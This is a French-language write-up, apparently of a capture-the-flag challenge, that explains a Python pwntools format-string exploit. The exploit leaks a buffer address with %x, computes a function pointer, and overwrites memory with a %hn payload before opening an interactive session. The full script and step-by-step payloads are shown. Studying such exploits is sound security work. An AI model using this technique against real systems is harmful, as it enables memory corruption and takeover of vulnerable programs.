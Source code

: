```python
r.sendlineafter('Login : ', payload)

#on lit notre ligne pour récupérer l'adresse du buffer
retour = r.recvline()
#on ajoute 0x avant la convertion
retour = "0x" + retour 

#On converti l'adresse du buffer en décimal
functionAdresse = int(retour, 16)
#on soustrait 0x4 ou 4 à cette adresse
functionAdresse = functionAdresse - 0x4
#On pointe donc sur function maintenant et on retransforme cela en string hexa
#au format \x--\x--\x--\x--
adressPayload = p32(functionAdresse)

#on écrit le payload
payload = adressPayload+"%34306x%11$hn"

r.sendlineafter('Password :', payload)

r.interactive()
r.close()


```

Le code fait les choses suivantes:

On récupère d'abord l'adresse du buffer avec le %x.
```python
payload = "%x" #* 11
r.sendlineafter('Login : ', payload)
retour = r.recvline()
```
Au paravant, on a testé ou se trouvait notre buffer en lancant la commande avec un payload
```python
payload = "AAAA" + "%x" * 99
r.sendlineafter('Login : ', payload)
```
on trouve un décalage de 11 bytes jusqu'au buffer. Ce décalage est important car c'est lui qui nous permet de pointer directement au bon endroit lorsqu'on injectera notre code après.


on ajoute 0x avant la convertion de notre adresse afin qu'elle ai le bon format et on lui soustrait 4, car buffer - 4 --> adresse de function
```python
retour = "0x" + retour 
functionAdresse = int(retour, 16)
functionAdresse = functionAdresse - 0x4
```

On pointe donc sur "function" maintenant et on retransforme notre adresse en string hexa
au format \x--\x--\x--\x-- pour qu'il soit utilisable dans notre payload.
```python
adressPayload = p32(functionAdresse)
payload = adressPayload+"%34306x%11$hn"
r.sendlineafter('Password :', payload)
```
